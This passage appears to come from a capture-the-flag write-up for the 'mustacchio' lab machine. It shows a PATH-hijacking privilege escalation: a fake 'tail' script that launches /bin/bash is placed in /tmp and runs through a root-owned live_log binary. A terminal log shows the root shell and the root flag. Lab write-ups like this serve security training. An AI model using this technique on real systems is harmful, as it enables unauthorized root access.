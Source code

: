```bash
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```

This lane `tail -f /var/log/nginx/accessl.log`shows us the binary is running without a full path.
As this file runs as the root users privileges, we can manipulate our path gain a root shell:
How to exploit it?  
1. Create a new directory in /tmp/ folder example :  
mkdir /tmp/shell  
2. Go into that folder :  
cd /tmp/shell  
3. Change the /usr/bin folder to /tmp/shell  
export PATH=/tmp/shell:$PATH  
4. Create a tail file, enter these two commands:  
echo ‘#!/bin/bash’ > tail  
echo ‘/bin/bash’ >> tail  
5. Change the permissions for the tail file  
chmod +x tail  
6. Go back to live_log and run the file  
./live_log

```bash
barry@mustacchio:/tmp$ echo "/bin/bash" > tail
barry@mustacchio:/tmp$ chmod 777 tail
barry@mustacchio:/tmp$ export PATH=/tmp:$PATH
barry@mustacchio:/tmp$ cd /home/joe/
barry@mustacchio:/home/joe$ ./live_log
root@mustacchio:/home/joe# cd /root
root@mustacchio:/root# cat root.txt 
3223581420d906c4dd1a5f9b530393a5

```

Pwned !